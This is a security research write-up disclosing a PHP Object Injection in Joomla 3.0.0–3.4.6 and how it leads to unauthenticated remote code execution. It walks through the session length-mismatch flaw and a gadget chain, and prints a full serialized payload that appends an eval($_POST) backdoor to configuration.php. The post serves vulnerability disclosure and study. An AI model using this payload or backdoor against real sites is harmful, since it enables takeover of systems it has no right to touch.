






## Introduction

During one of the research activities in [Hacktive Security](http://hacktivesecurity.com/), we discovered an **undisclosed PHP Object Injection** on Joomla CMS from the 3.0.0 release to the 3.4.6 (releases from 2012 to December 2015) that leads to Remote Code Execution.
A PHP Object Injection was discovered in the wild and patched in the 3.4.5 version (CVE-2015-8562), however, this vulnerability depends also a lot on the PHP release installed becoming not really trusty for all environments.

Comparing this RCE with CVE-2015-8562:
- \+ It is completely independent from the environment, becoming more reliable;
- \+ Vulnerable from the 3.0.0 to 3.4.6 (just one more minor release, not so much);
- \- Few releases vulnerable compared to CVE-2015-8562.

However, the fun part of this vulnerability was the exploitation. There aren’t a lot of blog posts about some more advanced and manual exploitation of PHP Object Injection (except for some good resources from RIPS) so this paper can be useful while exploiting it in other contexts.


## How Sessions works
Joomla sessions are stored in the database as PHP Objects and they are handled by PHP session functions. It is an interesting attack vector because sessions are also stored for unauthenticated users so an Object Injection there can lead to unauthenticated RCE.

Functions `read()` and `write()` defined in `libraries/joomla/session/storage/database.php` are set by the `session_set_save_handler()` in order to be used as read and write handlers for the `session_start()` call at `libraries/joomla/session/session.php:__start`

This is an example of a classic Joomla (before 3.4.6) session stored in the database for an unauthenticated user (at table `__session`):



There are many objects defined, but the most interesting thing is how input parameters are handled in the session. If we make a regular action with parameters, these ones and the result message of the action, are stored in the session object like this:



When we perform POST requests in Joomla we usually have a 303 redirect that will redirect us to the result page. That’s an important note for the exploitation, because the first request (with parameters) will only cause Joomla to perform the action and store (e.g. call the `write()` function) the session, then the 303 redirect will retrieve (e.g. call the `read()` function) it and display the message back to the user.

## The vulnerability
This is the code for the read and write functions (just removed unnecessary code).



The write function accept 2 parameters, the `session_id` (from the cookie) and the serialized object. Before storing data into the database there is an interesting replace of `\x00\x2a\x00` (`chr(0)."*".chr(0)`) with `\0\0\0`. That’s because MySQL cannot save null bytes and `$protected` variables are prefixed with `\x00\x2a\x00` in the serialized object. 

On the other hand, when reading, the read function will replace `\0\0\0` with `\x00\x2a\x00` in order to reconstruct the original object.

The main issue with this replace is that it’s replacing 3 bytes with 6 bytes:



This behaviour has been introduced from the 3.0.0 version and affecting Joomla until 3.4.6. Starting from 3.4.7 the piece of code is still present but the session is base64 encoded and stored in the database.

As I said before, we can manipulate the session object through action parameters. In this way, we can inject `\0\0\0` that will be replaced from the read function with 3 bytes, invalidating the object because of incorrect size. If we take the login form as a target and we put `my\0\0\0username` in the username field, we end up with the following part of object in the database:

```php
s:8:s:"username";s:16:"my\0\0\0username"
```

When the session object is read from the read function, `\0\0\0` will be replaced as demonstrated before, assembling the following value:

```php
s:8:s:"username";s:16:"myN\*Nusername" --> Invalid Size
```
The replaced string is only 13 bytes long but the declared string size is still 16!
We can now take this ‘overflow’ to our advantage and forge a new object that will lead us to the final goal... RCE! :)

## Exploitation
In order to trigger our arbitrary object and achieve RCE we need two parameters in a row, the first one will cause the ‘overflow’ and the second will contain the last part of the exploit. The perfect target (included in a default installation) is the login form with the ‘username’ and ‘password’ fields.

That’s the plan:
- Overflow the username field with enough `\0\0\0` in order to land in the password field
- Reconstruct a valid object
- Send the exploit
- Trigger the exploit (with the redirect)

We know that we can downsize the string size. By doing that on the username field (that precede the password) we can fake it and let it ends inside the next parameter under our control.

```php
[..]s:8:s:"username";s:10:"MYUSERNAME";s:8:"password";s:10:"MYPASSWORD"[...]
```

As you can see, the distance from the end of the username value and the start of the password is 27 bytes. The vulnerable replace let us decrease the value with a multiple of 3 (6 bytes - 3 bytes) so we need at least 8 times `\0\0\0` in the username field that will cause a simple padding of 1 extra character in the second parameter in our exploit (in the POC I used 9 times `\0\0\0` to be sure).

In bold, what unserialize read for the `username`:

---
(in database)
s:8:s:"username";s:54:"**\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0**";s:8:"password";s:10:"MYPASSWORD"


(after read and replace)
s:8:s:"username";s:54:"**NNNNNNNNNNNNNNNNNNNNNNNNNNN";s:8:"password";s:10:"MYPA**SSWORD"

(Achieve Object injection):
s:8:s:"**username**";s:54:"**NNNNNNNNNNNNNNNNNNNNNNNNNNN";s:8:"password";s:10:"MYPA**";s:2:"HS":O:15:"ObjectInjection"[...]

---
We have a stable way to inject an Object, now it’s the time to craft it.
We can use the payload from the CVE-2015-8562 exploit as a starting point, however it requires some modification:

```php
O:21:"JDatabaseDriverMysqli":3:{s:4:"\0\0\0a";O:17:"JSimplepieFactory":0:{}s:21:"\0\0\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:5:"cache";b:1;s:19:"cache_name_function";s:6:"assert";s:10:"javascript";i:9999;s:8:"feed_url";
```

This payload will instantiate a `JDatabaseDriverMysqli` object and assign an array of other objects in the `disconnectHandlers` attribute (a protected array variable). This is because the defined `__destruct` of this class will call `$this->disconnect()`, that leads to an interesting `call_user_func_array()`:



For each value in the `disconnectHandlers` array a `call_user_func_array()` is performed with a reference to the object (`&$this`) as a parameter. It’s a good gadget, but we only have control over the function call and not on parameters. That’s where `SimplePie` object came in our help.

In `SimplePie::init` (declared in `libraries/simplepie/simplepie.php`) we have different interesting gadgets, like the following:




This is much more suitable, because we have a `call_user_func` with both function and parameter values under our control.
However, that’s why I think the original payload wasn’t working, there is a condition that must be met in order to receive this line of code: `$this->cache` must be declared and `$parsed_feed_url[‘scheme’]` (the parsed url from $feed_url) needs to contain something.
Bypassing this condition was not so difficult. At first, with `cache_name_function` set to `system`, something like `https://something/;id` was enough. The first command fails but the semicolon do the rest.

However, while developing the Metasploit module, I was not so happy about this solution. If the target environment have disabled functions like `system`, `exec`, `shell_exec`, etc., you cannot do a lot with this exploit, and I wanted to make something more suitable for more environments.
So, I moved back to the assert function and see if I could achieve the PHP code execution while respecting the condition. The only think the condition is checking for is a string that contains a valid schema (e.g. `http://` ), but this will cause a syntax error. In order to bypass it we can chain an OR (||) statement and trap the schema into a variable, like this:

```php
<PHP CODE> || $a="http//";
```

We were limited again against some special characters (like `?`) and from the `assert` function, so we need a way to move on a less restrictive environment. The first idea was to create a php file in the root directory with an `eval()`, but without the `?` the web server will not interpret our code. A `configuration.php` file is present in the root directory. It is nothing more than a class declaration with configuration parameters in it. We can append an eval at the end of this file and use it to execute PHP code with the following payload:

```php
 file_put_contents('configuration.php','if(isset($_POST[\\\'test\\\'])) eval($_POST[\\\'test\\\']);\', FILE_APPEND) || $a=\'http://wtf\';
```

That will result in the following call:

```php
call_user_func("assert","file_put_contents('configuration.php','if(isset($_POST[\\\'test\\\'])) eval($_POST[\\\'test\\\']);\', FILE_APPEND) || $a=\'http://wtf\';")
```
At the end, this is the final object:

```php
s:2:"HS":O:21:"JDatabaseDriverMysqli":3:{s:4:"\0\0\0a";O:17:"JSimplepieFactory":0:{}s:21:"\0\0\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:5:"cache";b:1;s:19:"cache_name_function";s:6:"assert";s:10:"javascript";i:9999;s:8:"feed_url";s:125:"file_put_contents('configuration.php','if(isset($_POST[\'test\'])) eval($_POST[\'test\']);', FILE_APPEND) || $a='http://wtf';";}i:1;s:4:"init";}}s:13:"\0\0\0connection";i:1;}
```

Now we have everything necessary to develop a working exploit. Putting stuff together, we can send the exploit using the login form, this will store the malicious object into the database.
Then we can follow the redirect from the first response and the payload will be retrieved from the database and unserialized from the `session_start()` function and .. we got RCE!


## POC
<iframe width="480" height="360" src="https://www.youtube.com/embed/Z-GbT5YB-Tc" frameborder="0"> </iframe>

## Exploit
- https://www.exploit-db.com/exploits/47465
- https://www.exploit-db.com/exploits/47539 (Metasploit)

## References
- https://nvd.nist.gov/vuln/detail/CVE-2015-8562
- https://blog.ripstech.com/2018/woocommerce-php-object-injection/
- https://www.php.net/manual/en/ref.session.php
